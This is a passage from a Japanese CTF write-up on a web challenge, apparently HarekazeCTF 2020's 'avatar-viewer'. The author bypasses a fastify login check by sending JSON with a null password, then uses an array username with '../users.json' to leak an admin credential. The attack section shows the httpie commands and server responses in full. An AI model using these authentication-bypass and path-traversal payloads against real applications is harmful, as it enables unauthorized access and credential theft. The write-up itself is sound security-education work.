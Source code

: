```json title="users.json"
{
  "guest": "guest",
  "admin-(censored)": "<censored>"
}
```

なんとかして`users[username] != password`を騙したいです。

ところで、POSTされたデータが`application/x-www-form-urlencoded`の場合は[fastify-formbody](https://github.com/fastify/fastify-formbody)でパースされます[^1]が、`application/json`の場合もちゃんと認識され普通にパースして処理されるようです。

[^1]: この問題の本質ではないですが、fastify-formbodyは[qs](https://github.com/ljharb/qs)ではなくnodeのbuiltinである[querystring](https://nodejs.org/api/querystring.html)を使っているらしいです（ref. https://github.com/fastify/fastify-formbody/tree/v5.0.0#upgrading-from-4x ）。知らなかった。配列指定がいつもの`hoge[]=xxx`ではないので注意したい。

JSONならnullを注入できるので
```json
{
    "username": "適当な値（文字列でなくても良い）",
    "password": null
}
```
を送信すると、`users[username] != password`が`undefined != null`と等価になり、好きな値でログインできてしまいます。

あとは型を騙しまくれば、フラグまで一直線です。


### 攻撃

```shell
$ echo '{"username": ["../users.json"], "password": null }' | http --session=./session.json POST "http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/avatar-viewer/login"
HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 0
Date: Sat, 26 Dec 2020 16:23:22 GMT
Server: nginx/1.15.3
location: /avatar-viewer/profile
set-cookie: avatar-session=4DtvZGJ5xh4IdwpoTHTKqtqoUmcCBp2zSgK6CAMaWXvR98Y4lp7Ou9xzVnTXxw%3D%3D%3BqYFmgKVnKWV1hN0PhJ%2BdansdlGna0O40

$ http --session=./session.json GET "http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/avatar-viewer/myavatar.png"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 121
Content-Type: image/png
Date: Sat, 26 Dec 2020 16:24:05 GMT
Server: nginx/1.15.3

{
  "guest": "guest",
  "admin-b01b9d62015f8b68": "b56c497ff08f76536631f2cc1100521ffabfece3d2da67c71176d69dcba41a25"
}

$ echo '{"username": ["admin-b01b9d62015f8b68"], "password": "b56c497ff08f76536631f2cc1100521ffabfece3d2da67c71176d69dcba41a25" }' | http --session=./session.json POST "http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/avatar-viewer/login"
HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 0
Date: Sat, 26 Dec 2020 16:25:13 GMT
Server: nginx/1.15.3
location: /avatar-viewer/profile
set-cookie: avatar-session=XXdk1ovHIrBW8U%2F50L9zKVQFKvyFTUXkNnBASPmXeesuvBLpiR52pXg9aHuK0nQOKXB%2BqlrJYg%3D%3D%3B1%2F3EwWhGvWy47KQd0sKlEKZwbxHpMTSE

$ http --session=./session.json GET "http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/avatar-viewer/admin"
```